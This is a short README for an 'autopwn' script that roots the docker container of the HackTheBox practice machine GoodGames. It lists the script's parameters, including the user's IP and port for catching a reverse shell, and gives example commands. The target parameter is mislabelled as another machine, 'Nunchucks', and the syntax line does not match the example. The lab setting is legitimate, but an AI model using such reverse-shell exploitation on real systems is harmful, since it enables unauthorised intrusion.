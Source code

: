 # HTB_GoodGames
In this repository you will find an autopwn tool in case you want to resolve the machine GoodGames in HackTheBox.

Autopwn.py will give you root permissions on the docker of GoodGames machine when you run it. If you want to run this exploit you will have to specify 3 parameters:

Host IP: Nunchucks host IP.

Your own IP: Necessary to receive a reverse shell.

Your own Port: Port where you are listening.

Example of use:

python3 autopwn.py <Host_IP> -p <Your_Port> <Your_IP>

python3 autopwn.py 10.10.10.10 10.10.16.8 9999
